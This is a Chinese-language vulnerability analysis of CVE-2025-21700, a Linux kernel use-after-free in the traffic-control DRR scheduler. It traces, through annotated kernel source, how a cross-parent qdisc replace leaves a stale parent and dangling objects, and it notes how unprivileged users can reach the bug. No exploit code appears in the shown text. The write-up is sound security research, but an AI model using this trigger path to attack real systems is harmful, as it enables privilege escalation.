# 【Kernel Exploit】CVE-2025-21700 (Kernel One Gadget) 漏洞分析

## 1. 测试环境

**测试版本**：Linux-6.12.12 [内核镜像地址01](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.12.12/01/bzImage) 和 [内核镜像地址02](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.12.12/02/bzImage)

笔者测试的内核版本是 `Linux alpine 6.12.12 #1 SMP PREEMPT_DYNAMIC Wed Oct  7 20:34:36 CST 2026 x86_64 Linux` 和 `Linux alpine 6.12.12 #1 SMP PREEMPT_DYNAMIC Wed Oct  7 22:23:12 CST 2026 x86_64 Linux`。

**编译选项**：开启`CONFIG_IO_URING`、`CONFIG_TMPFS`、`CONFIG_SHMEM`、`CONFIG_SECURITY`、`CONFIG_BINFMT_MISC`、`CONFIG_THREAD_INFO_IN_TASK`、`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`、`CONFIG_KCMP`、`CONFIG_MEMCG`、`CONFIG_CGROUPS`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_RANDOM_KMALLOC_CACHES`、`CONFIG_SHUFFLE_PAGE_ALLOCATOR`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_FUSE_FS`、`CONFIG_USERFAULTFD`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`、`CONFIG_PACKET`、`CONFIG_PACKET_DIAG`、`CONFIG_USER_NS`、`CONFIG_NET_NS`、`CONFIG_NAMESPACES`、`CONFIG_CHECKPOINT_RESTORE`、`CONFIG_IPC_NS`、`CONFIG_NF_TABLES`、`CONFIG_NETFILTER`、`CONFIG_DUMMY`、`CONFIG_DUMMY_IRQ`、`CONFIG_DUMMY_CONSOLE`、`CONFIG_NET_SCHED`、`CONFIG_NET_SCH_HTB`、`CONFIG_NET_SCH_HFSC`、`CONFIG_NET_SCH_PRIO`、`CONFIG_NET_SCH_MULTIQ`、`CONFIG_NET_SCH_RED`、`CONFIG_NET_SCH_SFB`、`CONFIG_NET_SCH_SFQ`、`CONFIG_NET_SCH_TEQL`、`CONFIG_NET_SCH_TBF`、`CONFIG_NET_SCH_CBS`、`CONFIG_NET_SCH_ETF`、`CONFIG_NET_SCH_MQPRIO_LIB`、`CONFIG_NET_SCH_TAPRIO`、`CONFIG_NET_SCH_GRED`、`CONFIG_NET_SCH_NETEM`、`CONFIG_NET_SCH_DRR`、`CONFIG_NET_SCH_MQPRIO`、`CONFIG_NET_SCH_SKBPRIO`、`CONFIG_NET_SCH_CHOKE`、`CONFIG_NET_SCH_QFQ`、`CONFIG_NET_SCH_CODEL`、`CONFIG_NET_SCH_FQ_CODEL`、`CONFIG_NET_SCH_CAKE`、`CONFIG_NET_SCH_FQ`、`CONFIG_NET_SCH_HHF`、`CONFIG_NET_SCH_PIE`、`CONFIG_NET_SCH_FQ_PIE`、`CONFIG_NET_SCH_INGRESS`、`CONFIG_NET_SCH_PLUG`、`CONFIG_NET_SCH_ETS`、`CONFIG_NET_SCH_FIFO`选项。完整配置参考[(6.12.12).01.config](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.12.12/01/.config) 和 [(6.12.12).02.config](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.12.12/02/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

## 2. 漏洞背景

### 2-1. 漏洞概述

**CVE-2025-21700** 是 Linux 内核流量控制（Traffic Control，简称 TC）子系统中一个被评定为高危的释放后重用（Use-After-Free，UAF）漏洞，对应 CWE-416，CVSS 3.1 评分为 7.8。该漏洞由 Lion Ackermann 发现并报告，核心问题出现在 `tc_modify_qdisc()` 处理带有 `NLM_F_REPLACE` 标志的 `RTM_NEWQDISC` 请求时的行为逻辑中。

TC 子系统是 Linux 网络栈的重要组成部分，负责为网络设备配置队列规则（qdisc）与类（class），并通过 netlink 接口接受用户态下发的配置请求。qdisc 决定了数据包在设备发送队列中的排队与调度方式，而 class 则用于在层次化调度器中划分带宽或优先级。常见的调度器包括 pfifo、DRR、HTB 等，其中 DRR（Deficit Round Robin）以类为单位维护活动列表，并在出队时遍历该列表选择下一个待发送的数据包。`RTM_NEWQDISC` 请求可用于创建、修改或替换设备上的 qdisc，而 `NLM_F_REPLACE` 标志则表示希望以“替换”语义处理已有对象。按照设计意图，替换操作应当在同一父节点上完成“删除旧对象、加入新对象”的组合动作，而不会改变对象在调度器树中的归属关系。

然而，内核在该路径中并未校验被替换 qdisc 的原始父节点与目标父节点是否一致。当操作者通过 netlink 发起将一个 qdisc 从旧父类替换到新父类的请求时，内核会经由 `qdisc_graft()` 将替换逻辑委托给目标父类的 `cops->graft()` 回调。对于 DRR 调度器而言，该回调最终调用 `qdisc_replace()`，仅交换目标类的 `qdisc` 字段并释放原有的默认 qdisc。整个过程中，被替换 qdisc 的 `parent` 字段不会同步更新，仍指向旧父类；其引用计数在替换前被 `qdisc_refcount_inc()` 提升一次，替换后因新父类也持有它而保留另一次引用，最终计数为 2。两次引用分别对应旧父类残留的指向与新父类新建立的指向，但 `parent` 字段只记录了其中一个，引用关系与父节点记录之间由此出现不一致。

这种不一致会进一步影响 `qdisc_tree_reduce_backlog()` 的反向查找逻辑。该函数依赖 `qdisc_lookup_rcu()` 通过 `parent` 字段定位父 qdisc，但当 `parent` 指向已不可解析的陈旧节点时，查找返回 `NULL`，循环随即中断，DRR 调度器的队列长度通知被静默丢弃。对于 DRR 而言，这意味着 `drr_qlen_notify()` 不会被调用，父节点活动列表中的空类无法被及时移除。后续删除相关 class 时，内核释放了仍然被活动列表引用的对象，形成悬空 `drr_class` 与悬空 `Qdisc`，最终在 `drr_dequeue()` 的出队路径中，`cl->qdisc->ops->peek` 调用点解引用这两个悬空对象，触发释放后重用。

该漏洞的触发需要 `CAP_NET_ADMIN` 能力，在启用非特权用户命名空间的系统上，普通用户可通过 `unshare(CLONE_NEWUSER | CLONE_NEWNET)` 取得该能力。漏洞影响多个内核版本分支，覆盖自早期 2.6 系列至 6.13 系列的广泛范围，修复commit `bc50835e83f6` 已纳入主线内核 v6.14-rc1。该修复采取的是预防性策略，直接禁止将子 qdisc 从一个父类替换到另一个父类的配置，从而在 graft 路径的入口处阻断 `parent` 陈旧化的可能。这一选择既契合“替换应限定于同一节点”的语义，也避免了修改 `parent` 字段或引用计数可能引入的兼容性风险。

### 2-2. 漏洞根因

TC 子系统中的 replace 语义原本假定被替换的 qdisc 与目标父类处于同一节点之下。当这一前提被打破时，qdisc 的 `parent` 字段与实际挂载位置不再一致，调度器内部的引用与计数也随之偏离预期。**CVE-2025-21700** 正是由这种偏差引发的释放后重用漏洞，其直接表现是 backlog 通知无法沿父链传播，进而使 DRR 活动列表中的类条目在释放后仍被引用。

**kernelCTF** 方案构造的 qdisc 结构如下：

```
        DRR(1:)                      (TC_H_ROOT)
         /    |    \
        /     |     \
   drr(1:1)  fifo_B(1:2)  plug(1:3)
      |
     DRR(11:)
      |
   fifo_A(11:11)
      |
   FIFO(777:)
```

在这棵树中，`FIFO(777:)` 最初挂在 `fifo_A(11:11)` 下，其 `parent` 字段为 `11:11`；`fifo_B(1:2)` 与 `plug(1:3)` 同属 `DRR(1:)` 下的兄弟类；`plug(1:3)` 的 quantum 被显式设为 1，这一特性将在出队路径中控制活动列表的迭代顺序。整个漏洞链条围绕一次跨父类的 graft 操作展开，逐步从 `parent` 字段的陈旧化演化为活动列表中的悬空引用。

#### 2-2-1. 入口校验

`tc_modify_qdisc()` 是 netlink 消息处理入口，负责解析 `RTM_NEWQDISC` 请求。与 replace 路径相关的关键片段如下：

```c
static int tc_modify_qdisc(struct sk_buff *skb, struct nlmsghdr *n,
			   struct netlink_ext_ack *extack)
{
	struct net *net = sock_net(skb->sk);          /* 取得消息所属的网络命名空间 */
	struct tcmsg *tcm;                            /* 指向 tcmsg 头部 */
	struct nlattr *tca[TCA_MAX + 1];              /* 属性数组 */
	struct net_device *dev;                       /* 目标网络设备 */
	u32 clid;                                     /* 父节点 ID，来自 tcm->tcm_parent */
	struct Qdisc *q, *p;                          /* q: 目标 qdisc；p: 父 qdisc */
	int err;

	/* 解析 netlink 属性并定位设备 */
	err = nlmsg_parse_deprecated(n, sizeof(*tcm), tca, TCA_MAX,
				     rtm_tca_policy, extack);
	if (err < 0)
		return err;

	tcm = nlmsg_data(n);
	clid = tcm->tcm_parent;                       /* 本例中为 1:2 */
	q = p = NULL;

	dev = __dev_get_by_index(net, tcm->tcm_ifindex);
	if (!dev)
		return -ENODEV;

	if (clid) {
		if (clid != TC_H_ROOT) {
			if (clid != TC_H_INGRESS) {
				/* 按主号查找父 qdisc，即 DRR(1:) */
				p = qdisc_lookup(dev, TC_H_MAJ(clid));
				if (!p) {
					NL_SET_ERR_MSG(extack, "Failed to find specified qdisc");
					return -ENOENT;
				}
				/* 在父 qdisc 下按 classid 定位叶子 qdisc */
				q = qdisc_leaf(p, clid);
			} else if (dev_ingress_queue_create(dev)) {
				q = rtnl_dereference(dev_ingress_queue(dev)->qdisc_sleeping);
			}
		} else {
			q = rtnl_dereference(dev->qdisc);
		}

		if (q && q->handle == 0)
			q = NULL;

		if (!q || !tcm->tcm_handle || q->handle != tcm->tcm_handle) {
			if (tcm->tcm_handle) {
				if (q && !(n->nlmsg_flags & NLM_F_REPLACE)) {
					NL_SET_ERR_MSG(extack, "NLM_F_REPLACE needed to override");
					return -EEXIST;
				}
				if (TC_H_MIN(tcm->tcm_handle)) {
					NL_SET_ERR_MSG(extack, "Invalid minor handle");
					return -EINVAL;
				}
				/* 按 handle 查找被替换的 qdisc，即 FIFO(777:) */
				q = qdisc_lookup(dev, tcm->tcm_handle);
				if (!q)
					goto create_n_graft;
				if (n->nlmsg_flags & NLM_F_EXCL) {
					NL_SET_ERR_MSG(extack, "Exclusivity flag on, cannot override");
					return -EEXIST;
				}
				if (tca[TCA_KIND] &&
				    nla_strcmp(tca[TCA_KIND], q->ops->id)) {
					NL_SET_ERR_MSG(extack, "Invalid qdisc name");
					return -EINVAL;
				}
				if (q->flags & TCQ_F_INGRESS) {
					NL_SET_ERR_MSG(extack,
						       "Cannot regraft ingress or clsact Qdiscs");
					return -EINVAL;
				}

				/* ★★★★★ 漏洞点 ★★★★★
				 * 这里只检测 q 与 p 之间是否构成父子循环，
				 * 并不检查 q->parent 是否等于当前的 clid。
				 * 因此 FIFO(777:) 虽然原本挂在 fifo_A(11:11) 下，
				 * 但只要与目标父类 fifo_B(1:2) 不构成循环，
				 * 就可以被合法地送入 graft 路径。
				 * 目标父节点归属的校验在整个路径中完全缺失。
				 */
				if (q == p || (p && check_loop(q, p, 0))) {
					NL_SET_ERR_MSG(extack, "Qdisc parent/child loop detected");
					return -ELOOP;
				}
				if (clid == TC_H_INGRESS) {
					NL_SET_ERR_MSG(extack, "Ingress cannot graft directly");
					return -EINVAL;
				}

				/* 引用计数在此处被提升一次。
				 * FIFO(777:) 在替换前由 fifo_A(11:11) 持有，refcnt 为 1。
				 * 此处的 qdisc_refcount_inc() 使其变为 2。
				 * 后续 graft 路径不会再提升该计数。
				 */
				qdisc_refcount_inc(q);
				goto graft;
			}
		}
	}

	/* ... 省略非关键分支 ... */

graft:
	err = qdisc_graft(dev, p, skb, n, clid, q, NULL, extack);
	if (err) {
		if (q)
			qdisc_put(q);
		return err;
	}
	return 0;
}
```

`check_loop()` 仅检查 `q` 与 `p` 之间是否构成父子循环，不读取 `q->parent`：

```c
static int check_loop(struct Qdisc *q, struct Qdisc *p, int depth)
{
	struct check_loop_arg	arg;

	/* 若 q 没有类操作集，则不可能构成循环 */
	if (q->ops->cl_ops == NULL)
		return 0;

	arg.w.stop = arg.w.skip = arg.w.count = 0;
	arg.w.fn = check_loop_fn;          /* 遍历回调：检查子类是否指向 p */
	arg.depth = depth;
	arg.p = p;
	/* 遍历 q 的所有子类，若任一子路径命中 p 则置位 arg.w.stop */
	q->ops->cl_ops->walk(q, &arg.w);
	return arg.w.stop ? -ELOOP : 0;
}
```

该函数不校验 `q` 的原属父节点，因此 `FIFO(777:)` 从 `fifo_A(11:11)` 到 `fifo_B(1:2)` 的替换在入口处不会受到任何阻拦。

#### 2-2-2. Graft 路径

进入 `qdisc_graft()` 后，由于 `parent` 非空，控制流走类路径：

```c
static int qdisc_graft(struct net_device *dev, struct Qdisc *parent,
		       struct sk_buff *skb, struct nlmsghdr *n, u32 classid,
		       struct Qdisc *new, struct Qdisc *old,
		       struct netlink_ext_ack *extack)
{
	struct Qdisc *q = old;
	struct net *net = dev_net(dev);

	if (parent == NULL) {
		/* ... 省略根路径 ... */
	} else {
		const struct Qdisc_class_ops *cops = parent->ops->cl_ops;
		unsigned long cl;
		int err;

		if (new && (new->flags & TCQ_F_NOLOCK) && !(parent->flags & TCQ_F_NOLOCK))
			qdisc_clear_nolock(new);

		if (!cops || !cops->graft)
			return -EOPNOTSUPP;

		/* ★★★★★ 漏洞点 ★★★★★
		 * cops->find 对于 DRR 指向 drr_search_class()，
		 * 后者在类哈希表中按 classid 查找目标类。
		 * 此处仅解析目标类 fifo_B(1:2)，不校验
		 * FIFO(777:)->parent 是否等于 1:2。
		 */
		cl = cops->find(parent, classid);
		if (!cl) {
			NL_SET_ERR_MSG(extack, "Specified class not found");
			return -ENOENT;
		}

		if (new && new->ops == &noqueue_qdisc_ops) {
			NL_SET_ERR_MSG(extack, "Cannot assign noqueue to a class");
			return -EINVAL;
		}

		if (new &&
		    !(parent->flags & TCQ_F_MQROOT) &&
		    rcu_access_pointer(new->stab)) {
			NL_SET_ERR_MSG(extack, "STAB not supported on a non root");
			return -EINVAL;
		}

		/* 调用具体调度器的 graft 回调 */
		err = cops->graft(parent, cl, new, &old, extack);
		if (err)
			return err;
		notify_and_destroy(net, skb, n, classid, old, new, extack);
	}
	return 0;
}
```

对于 DRR 调度器，`cops->find` 指向 `drr_search_class()`，其内部经 `drr_find_class()` 与 `qdisc_class_find()` 在类哈希表中查找：

```c
static unsigned long drr_search_class(struct Qdisc *sch, u32 classid)
{
	/* 仅做类型转换，将 drr_find_class() 的返回值转为 unsigned long */
	return (unsigned long)drr_find_class(sch, classid);
}

static struct drr_class *drr_find_class(struct Qdisc *sch, u32 classid)
{
	struct drr_sched *q = qdisc_priv(sch);
	struct Qdisc_class_common *clc;

	/* 在 DRR 类哈希表中按 classid 查找通用类结构 */
	clc = qdisc_class_find(&q->clhash, classid);
	if (clc == NULL)
		return NULL;
	/* 通过 container_of 还原为 struct drr_class */
	return container_of(clc, struct drr_class, common);
}

static inline struct Qdisc_class_common *
qdisc_class_find(const struct Qdisc_class_hash *hash, u32 id)
{
	struct Qdisc_class_common *cl;
	unsigned int h;

	/* id 为 0 时直接返回 NULL */
	if (!id)
		return NULL;

	/* 计算哈希桶索引 */
	h = qdisc_class_hash(id, hash->hashmask);
	/* 遍历该桶的 hlist，逐个比较 classid */
	hlist_for_each_entry(cl, &hash->hash[h], hnode) {
		if (cl->classid == id)
			return cl;
	}
	return NULL;
}
```

整个查找过程不涉及 `FIFO(777:)->parent`。找到 `fifo_B(1:2)` 后，`cops->graft` 被调用，对于 DRR 即 `drr_graft_class()`：

```c
static int drr_graft_class(struct Qdisc *sch, unsigned long arg,
			   struct Qdisc *new, struct Qdisc **old,
			   struct netlink_ext_ack *extack)
{
	/* 目标类，由 cops->find 返回，即 fifo_B(1:2) */
	struct drr_class *cl = (struct drr_class *)arg;

	if (new == NULL) {
		/* 未提供新 qdisc 时，创建一个默认 pfifo */
		new = qdisc_create_dflt(sch->dev_queue, &pfifo_qdisc_ops,
					cl->common.classid, NULL);
		if (new == NULL)
			new = &noop_qdisc;
	}

	/* 将 new 挂到 cl->qdisc，旧值通过 *old 返回 */
	*old = qdisc_replace(sch, new, &cl->qdisc);
	return 0;
}
```

`qdisc_replace()` 是实际完成替换的辅助函数：

```c
static inline struct Qdisc *qdisc_replace(struct Qdisc *sch, struct Qdisc *new,
					  struct Qdisc **pold)
{
	struct Qdisc *old;

	/* 加锁保护树结构，防止并发修改 */
	sch_tree_lock(sch);
	/* 暂存旧 qdisc，用于后续释放 */
	old = *pold;
	/* 将新 qdisc 写入目标指针，完成挂载替换 */
	*pold = new;
	/* 清空旧 qdisc 的队列，但不负责释放对象本身 */
	if (old != NULL)
		qdisc_purge_queue(old);
	/* 解锁 */
	sch_tree_unlock(sch);

	/* 返回旧 qdisc，由上层负责释放 */
	return old;
}
```

`qdisc_replace()` 将 `fifo_B(1:2)` 的 `qdisc` 字段指向 `FIFO(777:)`，并对 `fifo_B` 原有的默认 `pfifo(1:2)` 执行 purge 与释放。但其中存在一个关键问题：`sch->parent` 在任何地方都没有被正确修正，`FIFO(777:)` 仍然保留着陈旧的父节点 ID `11:11`。也就是说，`FIFO(777:)` 实际挂在 `fifo_B(1:2)` 下，但其 `parent` 字段仍指向 `fifo_A(11:11)`。

替换完成后，`fifo_B(1:2)` 与 `fifo_A(11:11)` 同时指向同一个 `FIFO(777:)` 对象。其 `refcnt` 为 2：一次来自旧父类 `fifo_A(11:11)` 残留的指向，另一次来自新父类 `fifo_B(1:2)` 新建立的指向。`parent` 字段只记录了旧父类 `11:11`，与实际的引用关系不再一致。修复commit中观察到的 `refcnt 2` 正是这一状态。

#### 2-2-3. 使 parent 陈旧化

随后，删除 `drr(1:1)` 类。`tc_ctl_tclass()` 是类操作的入口，负责推导 qdisc 主号、定位目标 qdisc、解析目标类，并根据 `nlmsg_type` 分发：

```c
static int tc_ctl_tclass(struct sk_buff *skb, struct nlmsghdr *n,
			 struct netlink_ext_ack *extack)
{
	struct net *net = sock_net(skb->sk);              /* 消息所属网络命名空间 */
	struct tcmsg *tcm = nlmsg_data(n);                /* tcmsg 头部 */
	struct nlattr *tca[TCA_MAX + 1];                  /* 属性数组 */
	struct net_device *dev;                           /* 目标设备 */
	struct Qdisc *q = NULL;                           /* 目标 qdisc */
	const struct Qdisc_class_ops *cops;               /* 类操作集 */
	unsigned long cl = 0;                             /* 解析出的类指针 */
	unsigned long new_cl;                             /* 变更后的类指针 */
	u32 portid;                                       /* 父节点 ID */
	u32 clid;                                         /* 类标识 */
	u32 qid;                                          /* qdisc 主号 */
	int err;

	err = nlmsg_parse_deprecated(n, sizeof(*tcm), tca, TCA_MAX,
				     rtm_tca_policy, extack);
	if (err < 0)
		return err;

	dev = __dev_get_by_index(net, tcm->tcm_ifindex);
	if (!dev)
		return -ENODEV;

	/* Step 1. Determine qdisc handle X:0 */

	portid = tcm->tcm_parent;
	clid = tcm->tcm_handle;
	qid = TC_H_MAJ(clid);

	if (portid != TC_H_ROOT) {
		u32 qid1 = TC_H_MAJ(portid);

		if (qid && qid1) {
			/* 两个主号都已知时必须一致 */
			if (qid != qid1)
				return -EINVAL;
		} else if (qid1) {
			qid = qid1;
		} else if (qid == 0)
			qid = rtnl_dereference(dev->qdisc)->handle;

		/* 补全 portid 的主号部分 */
		if (portid)
			portid = TC_H_MAKE(qid, portid);
	} else {
		if (qid == 0)
			qid = rtnl_dereference(dev->qdisc)->handle;
	}

	/* 按 qid 定位目标 qdisc */
	q = qdisc_lookup(dev, qid);
	if (!q)
		return -ENOENT;

	/* 校验该 qdisc 支持类操作 */
	cops = q->ops->cl_ops;
	if (cops == NULL)
		return -EINVAL;

	/* 补全 clid 的主号，并通过 cops->find 解析目标类 */
	if (clid == 0) {
		if (portid == TC_H_ROOT)
			clid = qid;
	} else
		clid = TC_H_MAKE(qid, clid);

	if (clid)
		cl = cops->find(q, clid);

	if (cl == 0) {
		err = -ENOENT;
		if (n->nlmsg_type != RTM_NEWTCLASS ||
		    !(n->nlmsg_flags & NLM_F_CREATE))
			goto out;
	} else {
		switch (n->nlmsg_type) {
		case RTM_NEWTCLASS:
			err = -EEXIST;
			if (n->nlmsg_flags & NLM_F_EXCL)
				goto out;
			break;
		case RTM_DELTCLASS:
			err = tclass_del_notify(net, cops, skb, n, q, cl, extack);
			/* 解绑过滤器 */
			tc_bind_tclass(q, portid, clid, 0);
			goto out;
		case RTM_GETTCLASS:
			err = tclass_get_notify(net, skb, n, q, cl, extack);
			goto out;
		default:
			err = -EINVAL;
			goto out;
		}
	}

	if (tca[TCA_INGRESS_BLOCK] || tca[TCA_EGRESS_BLOCK]) {
		NL_SET_ERR_MSG(extack, "Shared blocks are not supported for classes");
		return -EOPNOTSUPP;
	}

	new_cl = cl;
	err = -EOPNOTSUPP;
	if (cops->change)
		err = cops->change(q, clid, portid, tca, &new_cl, extack);
	if (err == 0) {
		tclass_notify(net, skb, n, q, new_cl, RTM_NEWTCLASS, extack);
		/* 新建类时反向绑定 */
		if (cl != new_cl)
			tc_bind_tclass(q, portid, clid, new_cl);
	}
out:
	return err;
}
```

`tclass_del_notify()` 负责在发送删除通知后调用 `cops->delete()`：

```c
static int tclass_del_notify(struct net *net,
			     const struct Qdisc_class_ops *cops,
			     struct sk_buff *oskb, struct nlmsghdr *n,
			     struct Qdisc *q, unsigned long cl,
			     struct netlink_ext_ack *extack)
{
	u32 portid = oskb ? NETLINK_CB(oskb).portid : 0;
	struct sk_buff *skb;
	int err = 0;

	if (!cops->delete)
		return -EOPNOTSUPP;

	if (rtnl_notify_needed(net, n->nlmsg_flags, RTNLGRP_TC)) {
		skb = alloc_skb(NLMSG_GOODSIZE, GFP_KERNEL);
		if (!skb)
			return -ENOBUFS;

		/* 填充 RTM_DELTCLASS 消息 */
		if (tc_fill_tclass(skb, q, cl, portid, n->nlmsg_seq, 0,
				   RTM_DELTCLASS, extack) < 0) {
			kfree_skb(skb);
			return -EINVAL;
		}
	} else {
		skb = NULL;
	}

	/* 调用调度器的删除回调 */
	err = cops->delete(q, cl, extack);
	if (err) {
		kfree_skb(skb);
		return err;
	}

	err = rtnetlink_maybe_send(skb, net, portid, RTNLGRP_TC,
				   n->nlmsg_flags & NLM_F_ECHO);
	return err;
}
```

对于 DRR 调度器，`cops->delete` 对应 `drr_delete_class()`：

```c
static int drr_delete_class(struct Qdisc *sch, unsigned long arg,
			    struct netlink_ext_ack *extack)
{
	struct drr_sched *q = qdisc_priv(sch);           /* DRR 私有调度数据 */
	struct drr_class *cl = (struct drr_class *)arg;  /* 待删除的类 */

	if (qdisc_class_in_use(&cl->common)) {
		NL_SET_ERR_MSG(extack, "DRR class is in use");
		return -EBUSY;                               /* 类仍在使用，拒绝删除 */
	}

	sch_tree_lock(sch);

	/* 清理 cl->qdisc 的队列；该调用会触发
	 * qdisc_tree_reduce_backlog()，若 cl->qdisc->parent
	 * 陈旧，则通知链条在此断裂。
	 */
	qdisc_purge_queue(cl->qdisc);
	/* 从类哈希中移除该类 */
	qdisc_class_hash_remove(&q->clhash, &cl->common);

	sch_tree_unlock(sch);

	/* 释放类对象与子 qdisc */
	drr_destroy_class(sch, cl);
	return 0;
}

static void drr_destroy_class(struct Qdisc *sch, struct drr_class *cl)
{
	gen_kill_estimator(&cl->rate_est);   /* 释放 estimator */
	qdisc_put(cl->qdisc);                /* 递减并可能释放子 qdisc */
	kfree(cl);                           /* 释放 struct drr_class 本身 */
}
```

`drr_delete_class(1:1)` 会销毁 `drr(1:1)` 以及嵌套的 `DRR(11:)`。一旦 `DRR(11:)` 被释放，其下的 `fifo_A(11:11)` 也随之被销毁。在销毁 `fifo_A(11:11)` 时，`drr_destroy_class()` 会调用 `qdisc_put(cl->qdisc)`，此时 `cl->qdisc` 正是 `FIFO(777:)`。`FIFO(777:)` 的 `refcnt` 从 2 减为 1，但尚未归零，因此不会被释放。它仍然被 `fifo_B(1:2)` 引用。

与此同时，类标识 `11:11` 已无法再通过 `drr_find_class()` 解析。`FIFO(777:)->parent` 因此保留了一个指向已不存在类的陈旧值 `11:11`。此时树中主要剩下 `fifo_B(1:2) -> FIFO(777:)`（`parent = 11:11` 已陈旧，`refcnt = 1`）以及 `plug(1:3) -> PLUG(13:)`。

#### 2-2-4. 通知路径断裂

删除 `fifo_B(1:2)` 类时，`drr_delete_class()` 先调用 `qdisc_purge_queue()` 清理 `FIFO(777:)`：

```c
static inline void qdisc_purge_queue(struct Qdisc *sch)
{
	__u32 qlen, backlog;

	/* 在重置队列之前，先取出当前 qdisc 的 qlen 与 backlog */
	qdisc_qstats_qlen_backlog(sch, &qlen, &backlog);

	/* 重置该 qdisc 自身的队列状态，会清零 sch->q.qlen，
	 * 但不会修改 sch->parent
	 */
	qdisc_reset(sch);

	/* 沿父链向上通知 qlen 与 backlog 的变化，完全依赖 sch->parent
	 * 来定位父 qdisc；若 sch->parent 陈旧，通知链条在此断裂
	 */
	qdisc_tree_reduce_backlog(sch, qlen, backlog);
}
```

`qdisc_tree_reduce_backlog()` 沿父链向上遍历，并在 `sch->parent` 陈旧时中断：

```c
void qdisc_tree_reduce_backlog(struct Qdisc *sch, int n, int len)
{
	bool qdisc_is_offloaded = sch->flags & TCQ_F_OFFLOADED;
	const struct Qdisc_class_ops *cops;
	unsigned long cl;
	u32 parentid;
	bool notify;
	int drops;

	if (n == 0 && len == 0)
		return;

	drops = max_t(int, n, 0);

	rcu_read_lock();
	while ((parentid = sch->parent)) {
		if (parentid == TC_H_ROOT)
			break;

		if (sch->flags & TCQ_F_NOPARENT)
			break;

		notify = !sch->q.qlen && !WARN_ON_ONCE(!n &&
						       !qdisc_is_offloaded);

		/* ★★★★★ 漏洞点 ★★★★★
		 * 通过 sch->parent 查找父 qdisc；若 sch->parent 陈旧，
		 * qdisc_lookup_rcu() 会返回 NULL。此处 sch 是 FIFO(777:)，
		 * 其 parent 仍指向已被删除的 fifo_A(11:11)，
		 * 因此查找必然返回 NULL。
		 */
		sch = qdisc_lookup_rcu(qdisc_dev(sch), TC_H_MAJ(parentid));
		if (sch == NULL) {
			WARN_ON_ONCE(parentid != TC_H_ROOT);
			break;
		}

		cops = sch->ops->cl_ops;
		if (notify && cops->qlen_notify) {
			cl = cops->find(sch, parentid);
			cops->qlen_notify(sch, cl);
		}

		sch->q.qlen -= n;
		sch->qstats.backlog -= len;
		__qdisc_qstats_drop(sch, drops);
	}
	rcu_read_unlock();
}
```

`qdisc_lookup_rcu()` 从设备根 qdisc 出发，在 qdisc 哈希表中按 handle 匹配：

```c
struct Qdisc *qdisc_lookup_rcu(struct net_device *dev, u32 handle)
{
	struct netdev_queue *nq;
	struct Qdisc *q;

	if (!handle)
		return NULL;
	q = qdisc_match_from_root(rcu_dereference(dev->qdisc), handle);
	if (q)
		goto out;

	nq = dev_ingress_queue_rcu(dev);
	if (nq)
		q = qdisc_match_from_root(rcu_dereference(nq->qdisc_sleeping),
					  handle);
out:
	return q;
}
```

由于 `fifo_A(11:11)` 已被删除，主号 `11:` 对应的 qdisc 已不存在，函数返回 `NULL`。循环随即 `break`，后续的 `qlen_notify()` 与计数递减全部被跳过。对于 DRR 调度器，`qlen_notify()` 对应 `drr_qlen_notify()`：

```c
static void drr_qlen_notify(struct Qdisc *csh, unsigned long arg)
{
	struct drr_class *cl = (struct drr_class *)arg;

	/* 将空类从 drr_sched.active 活动列表中移除。
	 * 由于 qdisc_lookup_rcu() 返回 NULL，该回调从未被调用，
	 * fifo_B(1:2) 对应的 drr_class 条目仍然留在活动列表中。
	 */
	list_del(&cl->alist);
}
```

`list_del()` 及其底层实现只操作链表指针：

```c
static inline void list_del(struct list_head *entry)
{
	__list_del_entry(entry);                /* 先校验并摘除指针 */
	entry->next = LIST_POISON1;             /* 标记已删除，便于检测 */
	entry->prev = LIST_POISON2;
}

static inline void __list_del_entry(struct list_head *entry)
{
	if (!__list_del_entry_valid(entry))
		return;                             /* DEBUG_LIST 校验失败则返回 */

	__list_del(entry->prev, entry->next);   /* 执行实际的指针摘除 */
}

static inline void __list_del(struct list_head * prev, struct list_head * next)
{
	next->prev = prev;                      /* 后继的 prev 指向前驱 */
	WRITE_ONCE(prev->next, next);           /* 前驱的 next 指向后继 */
}
```

由于 `drr_qlen_notify()` 未被调用，`fifo_B(1:2)` 对应的 `drr_class` 条目仍然留在 `drr_sched.active` 活动列表中。

#### 2-2-5. 释放路径与悬空对象

随后 `drr_destroy_class()` 执行 `kfree(cl)` 与 `qdisc_put(cl->qdisc)`。`qdisc_put()` 负责递减引用计数并在计数归零时释放 qdisc：

```c
void qdisc_put(struct Qdisc *qdisc)
{
	if (!qdisc)
		return;

	if (qdisc->flags & TCQ_F_BUILTIN ||
	    !refcount_dec_and_test(&qdisc->refcnt))
		return;

	__qdisc_destroy(qdisc);
}

void qdisc_destroy(struct Qdisc *qdisc)
{
	if (qdisc->flags & TCQ_F_BUILTIN)
		return;

	__qdisc_destroy(qdisc);
}

static void __qdisc_destroy(struct Qdisc *qdisc)
{
	const struct Qdisc_ops  *ops = qdisc->ops;
	struct net_device *dev = qdisc_dev(qdisc);

#ifdef CONFIG_NET_SCHED
	qdisc_hash_del(qdisc);                          /* 从设备 qdisc 哈希中移除 */
	qdisc_put_stab(rtnl_dereference(qdisc->stab));  /* 释放 stab */
#endif
	gen_kill_estimator(&qdisc->rate_est);           /* 释放 estimator */
	qdisc_reset(qdisc);                             /* 清空队列状态 */

	if (ops->destroy)
		ops->destroy(qdisc);                        /* 调度器特定的清理 */

	lockdep_unregister_key(&qdisc->root_lock_key);  /* 注销锁类 key */
	module_put(ops->owner);                         /* 递减模块引用 */
	netdev_put(dev, &qdisc->dev_tracker);           /* 递减设备引用 */

	trace_qdisc_destroy(qdisc);

	call_rcu(&qdisc->rcu, qdisc_free_cb);           /* 延迟到 RCU 宽限期后释放 */
}
```

